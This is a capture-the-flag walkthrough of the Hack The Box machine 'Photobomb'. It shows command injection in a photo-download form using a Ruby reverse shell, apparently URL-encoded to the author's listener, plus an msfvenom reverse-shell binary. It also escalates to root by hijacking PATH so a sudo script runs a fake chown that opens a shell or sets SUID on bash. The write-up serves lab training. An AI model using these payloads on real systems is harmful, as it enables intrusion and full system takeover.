 ![image](https://user-images.githubusercontent.com/105310322/195705375-63f90af6-b2f9-4c0c-bee0-408ea2dc6cbf.png)

### Tools: msfvenom

### Vulnerabilities: ,Sudo: Change Path Variable

Nmap gives shows a webpage and ssh is open.

```console
└─$ nmap -A -p- -T4 -Pn 10.129.44.124
Starting Nmap 7.93 ( https://nmap.org ) at 2022-10-13 10:04 CDT
Nmap scan report for 10.129.44.124
Host is up (0.031s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.92 seconds
```

Accessing the webpage and looking at the source code we can find a username and password. ```pH0t0:b0Mb!```

http://pH0t0:b0Mb!@photobomb.htb/printer


![image](https://user-images.githubusercontent.com/105310322/195695976-b76720b2-7e3e-4d69-ab9d-9a08f19ac0ca.png)

Next we come to a page with pictures and a download section.

![image](https://user-images.githubusercontent.com/105310322/195698235-51057170-a92d-4bf5-b0be-7c14975b6f8f.png)


Before we get the the actual attack vector I tried a couple of different things.

In burp if we intercept the download page and get rid of fields except for the picture and then send it. This will actually bring us to a page that gives lots of information about what the webapp is running.

![image](https://user-images.githubusercontent.com/105310322/195699039-242afef3-3cf7-4eab-a376-e9d8f59e9b44.png)


I started with trying to exploit Sinatra with a directory traversal but the page confirmed that their were protections in place against it.

![image](https://user-images.githubusercontent.com/105310322/195699527-fc9a80e0-0ad5-46d3-90f9-037f80d8b313.png)

Also by trying to access other directories it will bring us to this page that confirms it is running Sinatra.

http://photobomb.htb/printerfriendly

![image](https://user-images.githubusercontent.com/105310322/195699688-cec33e27-e9d5-42c7-9000-94a8cc72ee7f.png)

Now on to the actual Attack Vector!


In BurpSuite intercept the ```Download Photo To Print``` and send it to repeater.

In the file field we can implant a reverse shell.

I used ```ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.16.11",1234))'``` and URL encoded it.

After crafting your payload it should look something like below.

Set up your listener and send your payload.

```
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 316
Origin: http://photobomb.htb
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Referer: http://photobomb.htb/printer
Upgrade-Insecure-Requests: 1

photo=eleanor-brooke-w-TLY0Ym4rM-unsplash.jpg&filetype=jpg;%72%75%62%79%20%2d%72%73%6f%63%6b%65%74%20%2d%65%27%73%70%61%77%6e%28%22%73%68%22%2c%5b%3a%69%6e%2c%3a%6f%75%74%2c%3a%65%72%72%5d%3d%3e%54%43%50%53%6f%63%6b%65%74%2e%6e%65%77%28%22%31%30%2e%31%30%2e%31%36%2e%31%31%22%2c%35%35%35%35%29%29%27&dimensions=30x20
```

We get a shell as wizard!

```console
└─$ nc -lvnp 1234                    
listening on [any] 1234 ...
connect to [10.10.16.11] from (UNKNOWN) [10.129.44.124] 49918
id
uid=1000(wizard) gid=1000(wizard) groups=1000(wizard)
```

Running sudo -l reveals that we can run cleanup.sh, but we can also set the PATH variable.

```console
wizard@photobomb:/tmp$ sudo -l
sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

Checking out cleanup.sh shows that it is running chown whenever cleanup.sh is ran.

Our plan of attack is to have cleanup.sh read our own file chown before anything else. 

```
wizard@photobomb:/tmp$ cat /opt/cleanup.sh
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```


So we can either create a reverse shell with msfvenom or change the suid bit on /bin/bash. I will show both.


Create your reverse shell and be sure to name it chown and then transfer it to the victim computer.

Note: Be sure to chmod your chown before trying to exploit. ie ```chmod 777 chown```

```console
└─$ msfvenom -p linux/x64/shell_reverse_tcp lhost=10.10.16.11 lport=1235 -f elf -o chown
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: chown
```

The following command places /tmp as the first place in the path. This is where our chown is located. Set up our listener and grab it!

```console
wizard@photobomb:/tmp$ sudo PATH=/tmp\:/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin /opt/cleanup.sh
```
Awesome we got a root with a reverse shell.

```console
└─$ nc -lvnp 1235
listening on [any] 1235 ...
connect to [10.10.16.11] from (UNKNOWN) [10.129.44.124] 51630
id
uid=0(root) gid=0(root) groups=0(root)
```

This payload is the same thing except my chown has my own script in it. I placed this chown in /dev/shm

```
#!/bin/bash
chmod u+s /bin/bash
```
Next I do the same thing but instead place /dev/shm in front of the others to be called first.

Note: not putting the full paths for the other directory calls can mess up other commands that need to be ran.


After running it we can check the permissions to verify our suid bit and then run ```bash -p``` to execute as root!

```console
wizard@photobomb:/tmp$ sudo PATH=/dev/shm\:/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin /opt/cleanup.sh
<n\:/usr/bin\:/sbin\:/bin\:/snap/bin /opt/cleanup.sh
wizard@photobomb:/tmp$ ls -la /bin/bash
ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18 09:14 /bin/bash
wizard@photobomb:/tmp$ bash -p
bash -p
bash-5.0# id
id
uid=1000(wizard) gid=1000(wizard) euid=0(root) groups=1000(wizard)
bash-5.0# 
```

```console
bash-5.0# cat /home/wizard/user.txt
cat /home/wizard/user.txt
bc45****************************
bash-5.0# cat /root/root.txt
cat /root/root.txt
5ab2****************************
```

Congratulations everyone!
